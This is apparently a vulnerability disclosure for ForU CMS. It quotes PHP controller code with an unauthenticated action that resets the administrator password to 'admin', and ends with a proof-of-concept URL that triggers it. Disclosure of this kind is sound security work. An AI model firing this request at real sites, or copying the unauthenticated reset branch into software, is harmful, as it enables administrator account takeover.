

ForU CMS index.php Arbitrary Administrator Password Reset
downlaod:https://gitee.com/sw1981/ForU-CMS
version:dev Official version

I have found the following controller in admin/index.php:
```php
switch ($act) {
  case 'clearUploadfile':
    clearUploadfile();
  break;

  case 'welcome':
    href('cms_welcome.php');
  break;

  case 'logout':
    userLogout('cms_login.php');
  break;

  case 'baiduSend':
    // 生成数组数据
    $y = date("Y");
    $m = date("m");
    $d = date("d");
    $days = mktime(0, 0, 0, $m, $d, $y);
    $daye = mktime(23, 59, 59, $m, $d, $y);
    getDetailBaiduSend($days, $daye);
  break;

  // reset admin password
  case 'reset_admin_psw':
    $psw = psw_hash('admin');
    $sql = "UPDATE user SET u_psw = '$psw' WHERE id = 1";
    $db->query($sql);
    echo $psw;
  break;
```
The branch reset_admin_psw resets the administrator's password directly without authentication.
poc:
```url
http://127.0.0.1:8002/admin/index.php?act=reset_admin_psw
```
